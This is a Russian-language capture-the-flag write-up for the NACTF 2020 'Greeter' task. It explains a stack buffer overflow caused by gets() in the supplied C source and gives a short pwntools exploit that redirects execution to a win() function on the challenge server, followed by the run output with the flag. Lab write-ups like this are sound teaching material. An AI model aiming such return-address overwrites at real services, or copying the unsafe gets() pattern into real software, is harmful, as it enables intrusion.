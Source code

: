 # Greeter writeup

Вначале изучим предоставленный в таске исходный код исполняемого файла:

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
    puts("congrats! here's your flag:");
    char flagbuf[64];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL) {
       puts("flag file not found!");
       exit(1);
    }
    fgets(flagbuf, 64, f);
    fputs(flagbuf, stdout);
    fclose(f);
}

int main() {
    /* disable stream buffering */
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char name[64];

    puts("What's your name?");
    gets(name);
    printf("Why hello there %s!\n", name);

    return 0;
}
```

Нашей целью будет являться вызов функции `win` на удалённом сервере, в которой происходит чтение файла с флагом. 

Как мы видим, в коде используется уязвимая функция `gets`, считывающая данные до символа переноса строки и, следовательно, позволяющая нам переполнить выделенный буфер.

Эксплуатацию уязвимости переполнения буфера на стеке будем производить в два этапа:
- сначала переполняем буфер до адреса возврата (отправляем в бинарный файл `72` байта мусора, так как под буфер `name` выделено `64` байта, а между буфером и указателем возврата на стеке находится только сохранённый регистр `RBP`);
- затем перезаписываем указатель вовзрата на адрес функции `win`, тем самым вызывая её выполнение.

Воспользуемся модулем `pwntools` для написания эксплойта:

```python3
#/usr/bin/env python3
from pwn import *

elf = ELF("./greeter")

p = remote("challenges.ctfd.io", 30249)

payload = b'A' * 72
payload += p64(elf.symbols['win']) # 0x401220

p.sendlineafter('\n', payload)
p.interactive()
```

Запускаем эксплойт:

```
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter$ python3 greeter_exploit.py
[*] '/mnt/c/Users/Lenovo/Desktop/NACTF 2020/greeter/greeter'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.ctfd.io on port 30249: Done
[*] Switching to interactive mode
Why hello there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA \x12!
congrats! here's your flag:
nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}
[*] Got EOF while reading in interactive
$
```
